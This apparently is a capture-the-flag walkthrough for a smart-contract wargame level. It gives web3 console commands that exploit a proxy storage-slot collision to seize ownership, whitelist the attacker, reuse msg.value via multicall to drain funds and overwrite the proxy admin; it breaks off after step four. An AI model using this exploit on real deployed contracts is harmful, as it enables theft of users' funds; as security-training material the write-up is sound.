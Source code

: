 ## Steps
1. Become `owner` in implementation, in order to use `addToWhitelist`:
- `owner` is slot 0 in implementation, `pendingAdmin` is slot 0 in proxy; so set attacker(`player`) as `pendingAdmin`.
### Step 1 console code
- `fnSig = {name: 'proposeNewAdmin', type: 'function', inputs: [{type: 'address', name: '_newAdmin'}]}`
- `data = web3.eth.abi.encodeFunctionCall(fnSig, [player])`
- `await web3.eth.sendTransaction({from: player, to: contract.address, data})`
- confirm with: `await contract.owner()`; should be address of attacker

2. Use `addToWhitelist` to add attacker to `whitelisted`, in order to access implementation functions; `multicall` `execute` `setMaxBalance`
### Step 2 console code
- `await contract.addToWhitelist(player)`
- confirm with `await contract.whitelisted(player)`

3. Drain all funds from the implementation, in order to use `setMaxBalance`:
- use `deposit` via `multicall`, so that `msg.value` can be reused, in order to set `balances[attacker]` to maximum
- use `execute` to withdraw all funds to attacker
### Step 3 console code
- `depositData = await contract.methods["deposit()"].request().then(value => value.data)`
- `multicallDepositData = await contract.methods["multicall(bytes[])"].request([depositData]).then(value => value.data)`

4. Use `setMaxBalance` to set value of `admin` in proxy to attacker
